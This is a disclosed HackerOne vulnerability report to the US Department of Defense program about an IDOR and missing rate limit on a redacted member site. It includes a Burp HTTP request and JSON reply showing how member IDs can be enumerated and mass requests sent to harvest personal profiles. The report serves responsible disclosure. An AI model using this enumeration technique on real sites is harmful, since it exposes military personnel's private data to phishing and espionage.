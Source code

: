 # Members Personal Information Leak Due to IDOR

## Report Details
- **Report ID**: 847185
- **URL**: https://hackerone.com/reports/847185
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-04-11T08:57:20.181Z
- **Disclosed**: 2021-05-11T20:13:25.868Z

## Reporter
- **Username**: r00tpgp
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Summary
https://██████ allows anyone to sign up and view other members profile.  According to wikipedia,  ███████ is part of US DoD "████████":

██████

I signed up with a regular account and noticed that by referencing users `████`, I can send thousands of "█████████"  and also, using another end-point, view personal information of members. 

For eg. this person has all her private info displayed for any member:  https://█████/███████ her `██████████` is easily enumerated as `██████████`. 



███


Therefore,  using Burp, I can run this number to reveal more members:

##Request

POST /██████ HTTP/1.1
Host: ██████████
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization-Code: b6315c0b-3f28-4b63-93de-b6a5a1c3db82
Rest-Authorization-Code: b6315c0b-3f28-4b63-93de-b6a5a1c3db82
X-Requested-With: XMLHttpRequest
Content-Length: 35
Origin: https://█████████
Connection: close
Referer: https://██████/██████████
Cookie: _ga=██████ ███; ██████████-Http-Session=███; googtrans=/en/en; UserName=█████ █████; ████████

RequesteeId=████████&RequestMessage=+

##Reply:

{
  "████": {
    "CreatedDate": "2020-04-11T08:22:53.247",
    "██████████": "Pending",
    "LastModifiedDate": "2020-04-11T08:22:53.247",
    "RequestMessage": " ",
    "RequestorId": ██████████,
    "RequesteeId": █████████,
    "User": {
      "AvatarUrl": "https://█████████/cfs-file/__key/system/images/anonymous.gif",
      "DisplayName": "██████████",
      "ProfileUrl": "https://██████████/███████",
      "Username": "██████",
      "CurrentStatus": null,
      "Id": ████████
    },
    "Id": 74509
  },
  "Info": [],
  "Warnings": [],
  "Errors": []
}

## Browser Response

███


Not all members provide Personal Info to anyone, therefore, I used another endpoint to craft a simple message "█████████", I used Burp and send thousands of "██████" to different `█████████` and wait for them to accept:


##Request


███████

and I wait for those that accept my "██████████" and I should be able to see their Personal Info upon approval.

I can confirmed that they had received my request because, using the first end-point, their `█████████` is `Pending....`__after__ I had sent the "████".

## Impact

This technique can be used as a data harvesting method on ██████ website to retrieve members profile, I had noticed that many of the members are military personnel. Which can be of interest for terrorist or threat actors targeting US military personnel for phishing or espionage campaigns. 

##Fix
There should be some rate-limiting to the number of requests per end-point can receive from a single source ip addr or a reCAPTCHA after a few requests to stop attacker from harvesting members' profile.

## Attachments
No attachments
